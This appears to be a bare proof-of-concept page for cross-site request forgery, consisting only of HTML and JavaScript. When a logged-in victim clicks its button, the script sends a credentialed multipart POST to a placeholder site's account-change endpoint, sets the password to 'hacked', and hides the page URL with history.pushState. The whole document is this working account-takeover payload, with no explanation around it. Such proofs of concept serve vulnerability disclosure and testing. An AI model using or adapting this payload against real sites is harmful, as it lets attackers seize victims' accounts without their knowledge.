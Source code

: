 ```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "https:\/\/domain.tld\/account\/change", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------341465401731709876833207203266");
        xhr.withCredentials = true;
        var body = "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"avatarupload\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"avatarlink\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"proveupload\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"provelink\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"password\"\r\n" + 
          "\r\n" + 
          "hacked\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"cpassword\"\r\n" + 
          "\r\n" + 
          "hacked\r\n" + 
          "-----------------------------341465401731709876833207203266\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------341465401731709876833207203266--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
